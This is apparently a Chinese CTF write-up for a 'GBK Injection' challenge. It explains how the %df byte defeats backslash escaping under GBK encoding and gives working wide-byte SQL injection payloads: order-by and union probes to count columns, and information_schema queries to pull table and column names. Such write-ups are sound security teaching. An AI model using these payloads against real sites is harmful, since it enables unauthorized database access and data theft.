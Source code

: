  

 

 

### [GBK Injection](http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1)

知识点：

宽字节注入：

当传入的单引号会被反斜杠转义的时候，一般情况下是不存在sql注入漏洞的，但是有一个特例，那就是数据库的编码为GBK时，可以使用宽字节注入，宽字节的格式是在地址后面先加一个%df，再加单引号，因为**反斜杠的编码为%5c**，然而再GBK编码中，**%df%5c是繁体字“謰”**，所以这个时候，单引号就不会被反斜杠转义，造成注入。

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164611.png)

输入%df之后：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164617.png)

此时已经造成了注入；

先使用order by语句查询出表中有多少列：

```
id=1%df%27+order+by+2%23   //不报错
id=1%df%27+order+by+3%23   //报错，判断列数为2
```

或者使用union查询：

```
id=1%df%27+union+select+null,null%23          //不报错
id=1%df%27+union+select+null,null,null%23     //报错，判断列数为2
```

随后可将null换成查询语句，想要union查询到我们自己输入的语句，需要把1换成-1，

 

 

因为单引号被过滤，所以我们可以使用嵌套查询：

```
-1%df%27%20union+select+null,(select+table_name+from+information_schema.tables+where+table_schema=(select+database())limit+0,1)%23
```

这句可以查到表名，但是只能插一个，想要查到其他的需要更改limit的值

 

 

```
-1%df%27%20union+select+null,(select+column_name+from+information_schema.columns+where+table_schema=(select+database())+and+table_name=(select+table_name+from+information_schema.tables+where+table_schema=(select+database())+limit+0,1)+limit+1,2)%23
```

这句可以查到字段名；
